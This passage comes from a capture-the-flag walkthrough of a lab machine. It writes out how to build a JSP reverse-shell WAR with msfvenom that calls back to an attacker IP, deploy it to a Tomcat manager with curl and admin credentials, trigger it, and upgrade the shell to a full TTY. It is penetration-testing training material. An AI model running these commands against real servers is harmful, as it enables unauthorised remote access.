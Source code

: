 ![484f820483c16339db02233ad1a9d22c.png](../_resources/484f820483c16339db02233ad1a9d22c.png)

At this point, we can try to upload a `.war` reverse shell since we have admin access to the manager. I make a shell with `msfvenom` using the following command: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.91 LPORT=1337 -f war > shell.war`

Then upload it with:
`curl --upload-file shell.war -u 'admin:3@g01PdhB!' "http://kotarak.htb:8080/manager/text/deploy?path=/shell"`

And lastly activate the shell with:
`curl http://kotarak.htb:8080/shell/`

Tuh-duh! We are now `tomcat`! I upgrade the unstable shell using the python trick, followed by setting `TERM` and tty rows/columns. The integers used to set the tty rows and columns was returned from the command `stty -a`. Lastly, I background the shell with `^Z` and run `stty raw -echo; fg <ENTER> <ENTER>` which does some magic, allowing me to use `^L`, tab complete, etc. We now have a pretty darn fancy reverse shell.
